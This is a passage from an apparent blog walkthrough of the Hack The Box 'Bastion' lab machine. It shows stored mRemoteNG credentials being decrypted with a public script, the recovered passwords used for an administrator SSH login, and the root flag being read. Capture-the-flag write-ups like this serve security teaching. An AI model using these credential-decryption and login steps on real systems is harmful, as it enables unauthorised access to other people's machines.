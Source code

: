 `kali@starscorp1o:~/htb/boxes/bastion$ python mremoteng_decrypt.py -s yhgmiu5bbuamU3qMUKc/uYDdmbMrJZ/JvR1kYe4Bhiu8bXybLxVnO0U9fKRylI7NcB9QuRsZVvla8esB<br></br>Password: bureaulampje`

![](http://vedanttare.com/wp-content/uploads/2022/04/admin-pass-crack.png)

`kali@starscorp1o:~/htb/boxes/bastion$ python mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==<br></br>Password: thXLHM96BeKL0ER2`

Using SSH to login as administrator:

`kali@starscorp1o:~/htb/boxes/bastion$ ssh administrator@10.10.10.134<br></br>administrator@10.10.10.134's password:<br></br>Microsoft Windows [Version 10.0.14393]<br></br>(c) 2016 Microsoft Corporation. All rights reserved.`

`administrator@BASTION C:\Users\Administrator>whoami<br></br>bastion\administrator`

![](http://vedanttare.com/wp-content/uploads/2022/04/ssh-admin.png)

And BOOM!!! We got root!!!! Now we could grab the root flag.

administrator@BASTION C:\\Users\\Administrator\\Desktop&gt;type root.txt  
958850b91811676ed6620a9c430e65c8

![](http://vedanttare.com/wp-content/uploads/2022/04/root-flag-got-it.png)

Important links and resources:

<https://github.com/haseebT/mRemoteNG-Decrypt>

mRemote Offline Password Decrypt #

Based on Metasploit Module enum\_mremote\_pwds.rb from David Maloney

Autor: Adriano Marcio Monteiro

E-mail: adrianomarciomonteiro@gmail.com

Blog: adrianomarciomonteiro.blogspot.com.br

\# Usage: ruby mRemoteOffPwdsDecrypt.rb confCons.xml

It was obvious that confCons.xml had passwords.

Check out my previous post:

<figure class="wp-block-embed is-type-wp-embed is-provider-vedant-tare wp-block-embed-vedant-tare"><div class="wp-block-embed__wrapper">> [Hackthebox – Blocky](https://vedanttare.com/hackthebox-blocky/)

<iframe class="wp-embedded-content" data-secret="PNm5iIxFGC" frameborder="0" height="338" marginheight="0" marginwidth="0" sandbox="allow-scripts" scrolling="no" security="restricted" src="https://vedanttare.com/hackthebox-blocky/embed/#?secret=dbgfnihfG8#?secret=PNm5iIxFGC" style="position: absolute; clip: rect(1px, 1px, 1px, 1px);" title="“Hackthebox – Blocky” — VEDANT TARE" width="600"></iframe></div></figure>
